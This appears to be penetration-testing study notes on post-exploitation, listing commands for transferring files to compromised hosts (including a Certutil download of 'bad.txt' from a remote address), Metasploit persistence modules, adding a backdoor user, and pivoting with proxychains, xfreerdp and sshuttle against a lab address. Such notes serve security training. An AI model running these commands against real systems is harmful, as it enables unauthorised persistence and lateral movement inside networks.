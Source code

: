 ## Post Exploitation - Review

### File transfers
* python -m SimpleHTTPServer 80
* python -m pyftpdlib 21 (attacker ip)
*   ftp attackerip (windows machines)
* Certutil.exe -urlcache -f http://ip.address/bad.txt output.txt
* wget (linux machines)
* metasploit

---

### 🚩 Maintaining access

#### Persistence Scripts (Metasploit)
* run persistence -h
* exploit/windows/local/persistence
* exploit/windows/local/registry_persistence

#### Scheduled Tasks
* run scheduleme
* run schtaskabuse

#### Add a user
* net user FakeUser Password1 /add

---

### 🚩 Pivoting - Using a compromised device as a condui to reach new locations. For situations when a secondary device is only reachable through a compromised device, or for more covert activities (more in the realms of Red Teaming).

#### Proxychains: Bind port, Proxychain, Proxy  

1. device 1 has access to device 2 which is not reachable from our attacker machine device 0  
2. proxychain and bind port is setup on device 0  
3. proxy tunnel on devive 1  
4. target is device 2

         Example Syntax

* ssh (into device 1 and setup a proxy tunnel with a bind port, so all traffic will be proxied through device 1, between device 0 and 2.)
* proxychains nmap 10.10.10.225 | scans device 2 with standard nmap syntax, because this is pchained it may be unstable on syn scanning. So switch to -sT as tcp scanning could be better

#### 🚩 xfreerdp: RDP pivot into a device by placing proxychains infront of the normal syntax
   
      proxychains xfreerdp /u:administrator /p:'Password1' /v:10.10.10.225

#### 🚩 Sshuttle

      sshuttle -r user@ip.of.device1 ip.of.target/24 --ssh-cmd "ssh -i pivot"
keep terminal live, move to new terminal. Aslong as the sshuttle terminal is live we can execute commands in the new terminal without having to type 'proxychains' infront of every command if using proxychain.

#### 🚩 Chisel

---

### Cleaning up


